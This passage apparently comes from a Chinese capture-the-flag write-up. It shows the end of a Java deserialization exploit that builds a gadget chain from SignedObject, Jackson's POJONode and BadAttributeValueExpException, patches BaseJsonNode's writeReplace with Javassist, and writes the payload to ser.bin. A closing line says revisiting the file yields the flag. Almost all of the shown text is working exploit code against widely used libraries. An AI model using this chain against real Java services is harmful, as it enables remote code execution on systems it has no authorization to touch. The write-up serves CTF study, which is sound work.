 ```plain
        SignedObject signedObject = new SignedObject(urlHelper, kp.getPrivate(), Signature.getInstance("DSA"));

        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass0 = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass0.getDeclaredMethod("writeReplace");
        ctClass0.removeMethod(writeReplace);
        ctClass0.toClass();

        POJONode node = new POJONode(signedObject);
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);

        setFieldValue(val, "val", node);

        ser(val);

    }
    public static void ser(Object obj) throws IOException {
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        objectOutputStream.writeObject(obj);
        objectOutputStream.close();
    }
    public static void setFieldValue(Object obj, String field, Object val) throws Exception{
        Field dField = obj.getClass().getDeclaredField(field);
        dField.setAccessible(true);
        dField.set(obj, val);
    }


}
```

再次访问下 file 即可得到 flag

[![](assets/1709112106-38f8d61758b6b7821ffbdc6625a3f1d8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227195853-9433ea52-d567-1.png)

